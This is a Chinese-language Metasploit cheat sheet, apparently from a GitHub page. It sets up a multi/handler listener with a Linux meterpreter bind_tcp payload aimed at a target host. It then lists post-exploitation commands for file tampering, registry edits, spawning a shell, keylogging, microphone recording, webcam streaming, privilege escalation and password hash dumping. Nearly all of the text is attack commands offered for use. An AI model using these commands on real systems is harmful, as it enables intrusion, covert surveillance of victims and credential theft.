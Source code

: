 ```shell
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp		#选择payload类型
show options
set RHOST 10.0.0.1
set LPORT 12345
exploit
```

### meterpreter shell

拿到目标服务器的meterpreter_shell后，可以进行的操作

```shell
backgroud 将msf进程放到后台
session -i 1 将进程拖回前台运行
run vnc 远程桌面的开启
```

- **文件管理功能**

```
Download     下载文件
Edit          编辑
cat           查看
mkdir         创建
mv            移动
rm            删除
upload        上传
rmdir         删除文件夹
```

- **网络及系统操作**

```
Arp          看ARP缓冲表
Ifconfig     IP地址网卡
Getproxy     获取代理
Netstat      查看端口链接
Kill         结束进程
Ps           查看进程
Reboot       重启电脑
Reg          修改注册表
Shell        获取shell
Shutdown     关闭电脑
sysinfo      获取电脑信息
```

- **用户操作和其他功能讲解**

```
enumdesktops     用户登录数
keyscan_dump　　 键盘记录－下载
keyscan_start　　键盘记录　－　开始
keyscan_stop 　　键盘记录　－　停止
Uictl　　　　　　获取键盘鼠标控制权
record_mic　　　 音频录制
webcam_chat　　　查看摄像头接口
webcam_list　　　查看摄像头列表
webcam_stream　　摄像头视频获取
Getsystem　　　　获取高权限
Hashdump　　　   下载ＨＡＳＨ
```
